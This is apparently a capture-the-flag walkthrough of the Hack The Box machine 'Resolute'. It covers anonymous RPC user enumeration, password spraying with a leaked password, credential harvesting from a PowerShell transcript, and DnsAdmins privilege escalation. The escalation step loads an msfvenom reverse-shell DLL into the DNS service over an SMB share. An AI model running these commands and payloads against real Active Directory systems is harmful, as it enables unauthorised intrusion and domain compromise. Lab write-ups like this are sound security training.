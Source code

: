 ```yaml
---
description: https://app.hackthebox.com/machines/220
---
```


# 🐟 Resolute

<figure><img src="../../.gitbook/assets/image (999).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1000).png" alt=""><figcaption></figcaption></figure>

So we can see the domain is megabank.local, so let's add it to /etc/hosts file:

```
10.129.218.158  Resolute.megabank.local Resolute megabank.local
```

We then try enumerating SMB, we get anonymous login but no shares appears to be there

```
smbclient -L //10.129.218.158 
```

<figure><img src="../../.gitbook/assets/image (1001).png" alt=""><figcaption></figcaption></figure>

We could try using null auth or smbmap with:

```
smbmap -H 10.129.218.158
```

but nothing works

same for rpcclient:

```
rpcclient 10.129.218.158
```

But when we try null auth this times it works:

```
rpcclient -U "" -N 10.129.218.158
```

* **U ""**:
  * The `-U` option specifies the username to use for the connection. In this case, `""` (an empty string) means that no username is provided.
  * This can be useful for anonymous connections where the server does not require a username.
* **-N**:
  * The `-N` option tells `rpcclient` to use an anonymous login. This means that no password will be prompted for or provided. It is often used together with `-U ""` for anonymous access.

Then we use the enumdomusers to list some users in the domain:

<figure><img src="../../.gitbook/assets/image (1002).png" alt=""><figcaption></figcaption></figure>

We copy this output to a file and use awk to clean it:

```
cat enumdom.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}'
```

<figure><img src="../../.gitbook/assets/image (1003).png" alt=""><figcaption></figcaption></figure>

To continue enumeration, we could use cme to list out various info like password policy to look for lockout policy so we can bruteforce aggresivly:

```
cme smb --pass-pol 10.129.218.158 
```

<figure><img src="../../.gitbook/assets/image (1004).png" alt=""><figcaption></figcaption></figure>

While enumerating rpc, we can't forget to use the querydispinfo command that leads us to a clear text password:

<figure><img src="../../.gitbook/assets/image (1005).png" alt=""><figcaption><p>marko:Welcome123!</p></figcaption></figure>

So we exit rpcclient and hop on cme to test out the credentials

```
cme smb 10.129.218.158 -u marko -p 'Welcome123!'
```

But we get a login failure, so let's try spraying with the proper user list output :

```
cme smb 10.129.218.158 -u cleanedusers.txt -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/image (1006).png" alt=""><figcaption></figcaption></figure>

and we get a hit for melanie :raised\_hands:

So we go on cme and test out the creds, it works, so we launch evil-winrm to connect via a session:

<figure><img src="../../.gitbook/assets/image (1007).png" alt=""><figcaption></figcaption></figure>

What we also need to do is enumerate SMB as an authd user ->

```
smbmap -d megabank.local -u melanie -p 'Welcome123!' -H 10.129.218.158
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we enumerate the session, we don't find anything in the home dir so we ho at root and run ls -force

The command `ls -force` as written appears to be a mix of Unix/Linux and PowerShell syntax, and it doesn't directly apply to Unix/Linux systems. Instead, it resembles a PowerShell command. In PowerShell, `ls` is an alias for the `Get-ChildItem` cmdlet, and the `-Force` parameter is used to show hidden and system files.

* **ls**:
  * An alias for the `Get-ChildItem` cmdlet, which lists the contents of a directory.
  * It functions similarly to the `ls` command in Unix/Linux, but it is a part of PowerShell and can be used on Windows systems.
* **-Force**:
  * A parameter for `Get-ChildItem` that forces the command to include hidden and system files in its output.
  * Without `-Force`, `Get-ChildItem` would only list the visible files and directories.

We find the interesting file:

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We continue our rabbit hole ->

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption><p>PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt</p></figcaption></figure>

We look at the content of the file and we can see the creds for the ryan user:

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption><p>ryan Serv3r4Admin4cc123!</p></figcaption></figure>

So obviously we pivot towards the ryan user using evil winrm ->

and look at the groups using `whoami /groups`

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#dnsadmins" %}

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.
{% endhint %}

{% embed url="https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2" %}

We follow the documentation, create a malicious dll with msfvenom as follows:&#x20;

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.58 LPORT=4444 -f dll > privesc.dll
```

then we need to transfer the file ->

{% embed url="https://blog.ropnop.com/transferring-files-from-kali-to-windows/" %}

So we will start by creating our smbserver with impacket ->

```
smbserver.py share .
```

`smbserver.py share .` is used to start an SMB (Server Message Block) server using the `smbserver.py` script from the Impacket library. This script allows you to quickly set up an SMB server on a specified share name and directory.

* **share**:
  * This is the name of the share that you are creating. When clients connect to the SMB server, they will use this share name to access the files.
  * For example, if you specify `share`, clients will access it via `\\<server-ip>\share`.
* **.**:
  * This indicates the directory to be shared. The `.` (dot) represents the current directory from which the command is being run.
  * All files and subdirectories within the current directory will be accessible through the SMB share.

Now launch netcat with the port of your msfvenom payload

{% hint style="info" %}
Some googling around for this group led me to the [lolbas page](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/) for `dnscmd` to load a dll over a UNC path. There’s a command to set a server level plugin dll:



dnscmd.exe /config /serverlevelplugindll \\\path\to\dll
{% endhint %}

```
dnscmd.exe /config /serverlevelplugindll \\10.10.14.58\share\privesc.dll
```

* `dnscmd.exe` is a command-line tool used to manage DNS servers.
* The `/config /serverlevelplugindll` option sets the path of a DLL that the DNS server will load as a plugin.
* `\\10.10.14.58\share\privesc.dll` specifies the path to your malicious DLL hosted on the SMB server.
* When this command is executed, the DNS server is configured to load the `privesc.dll` from the SMB share.

```
sc.exe \\resolute stop dns
```

```
sc.exe \\resolute start dns
```

* `sc.exe` is a command-line tool for managing Windows services.
* `sc.exe \\resolute stop dns` stops the DNS service on the target server (named `resolute`).
* `sc.exe \\resolute start dns` starts the DNS service again.
* Restarting the DNS service forces it to load the newly configured server-level plugin DLL (`privesc.dll`).

***

* When the DNS service starts, it loads the `privesc.dll` file from the SMB share.
* If `privesc.dll` contains a reverse shell payload, it will execute with the privileges of the DNS service, which can be high, potentially including domain admin privileges.
* During this process, when `dnscmd.exe` or the DNS service accesses the SMB share to retrieve the `privesc.dll`, the system may send NTLM authentication hashes to the SMB server.
* These hashes can be captured by tools like `Responder` or directly observed in the output of `smbserver.py`.

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>
